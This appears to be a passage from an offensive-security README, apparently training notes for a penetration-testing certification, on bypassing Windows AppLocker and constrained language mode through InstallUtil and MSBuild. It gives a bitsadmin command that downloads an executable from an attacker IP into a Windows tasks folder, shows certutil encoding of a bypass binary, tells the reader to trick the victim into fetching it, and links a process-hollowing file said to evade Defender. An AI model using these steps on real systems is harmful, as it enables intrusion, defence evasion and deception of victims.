 ### <ins>InstallUtil (installutil.hta)</ins>
*Note: if curl is not available on the target machine, we can use bitsadmin instead:*
- `bitsadmin /transfer myJob http://192.168.45.199/scanVenger.exe C:\Windows\Tasks\scanvenger.exe`

- Compile C# executable that uses Custom Powershell Runspace.
- Convert the outputted EXE to txt using certutil: `certutil -encode clm-bypass.exe file.txt`
- Use the InstallUtil template to trick the victim to download the file.txt file and let the magic happen.

### <ins>MSBuild (msbuild.hta)</ins>
- Use the file [hollow.xml](https://github.com/Extravenger/OSEPlayground/blob/main/03%20-%20CLM%20%26%20Applocker%20Bypass/3%20-%20MSBuild/hollow.xml). (Bypass defender and Applocker default rules)
